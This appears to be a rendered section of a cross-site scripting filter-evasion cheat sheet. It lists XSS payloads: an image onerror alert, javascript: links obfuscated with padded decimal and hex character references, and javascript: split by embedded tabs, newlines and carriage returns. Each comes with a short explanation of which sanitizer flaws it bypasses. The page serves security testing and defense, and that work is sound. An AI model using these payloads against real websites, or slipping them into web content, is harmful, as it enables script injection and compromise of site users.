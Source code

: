 #### On Error Alert¶
<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>

#### IMG onerror and JavaScript Alert Encode¶
<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">

#### Decimal HTML Character References¶
Since XSS examples that use a javascript: directive inside an <IMG tag do not work on Firefox this approach uses decimal HTML character references as a workaround:
 <a href="&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;">Click Me!</a>

#### Decimal HTML Character References Without Trailing Semicolons¶
This is often effective in bypassing XSS filters that look for the string &\#XX;, since most people don't know about padding - which can be used up to 7 numeric characters total. This is also useful against filters that decode against strings like $tmp\_string =\~ s/.\*\\&\#(\\d+);.\*/$1/; which incorrectly assumes a semicolon is required to terminate a HTML encoded string (This has been seen in the wild):
<a href="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">Click Me</a>

#### Hexadecimal HTML Character References Without Trailing Semicolons¶
This attack is also viable against the filter for the string $tmp\_string=\~ s/.\*\\&\#(\\d+);.\*/$1/;, because it assumes that there is a numeric character following the pound symbol - which is not true with hex HTML characters:
<a href="&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29">Click Me</a>

#### Embedded Tab¶
This approach breaks up the XSS attack:

 <a href="jav   ascript:alert('XSS');">Click Me</a>

#### Embedded Encoded Tab¶
This approach can also break up XSS:
 <a href="jav&#x09;ascript:alert('XSS');">Click Me</a>

#### Embedded Newline to Break Up XSS¶
While some defenders claim that any of the chars 09-13 (decimal) will work for this attack, this is incorrect. Only 09 (horizontal tab), 10 (newline) and 13 (carriage return) work. Examine the [ASCII table](https://man7.org/linux/man-pages/man7/ascii.7.html) for reference. The next four XSS attack examples illustrate this vector:
<a href="jav&#x0A;ascript:alert('XSS');">Click Me</a>

##### Example 1: Break Up XSS Attack with Embedded Carriage Return¶
(Note: with the above I am making these strings longer than they have to be because the zeros could be omitted. Often I've seen filters that assume the hex and dec encoding has to be two or three characters. The real rule is 1-7 characters.):
<a href="jav&#x0D;ascript:alert('XSS');">Click Me</a>
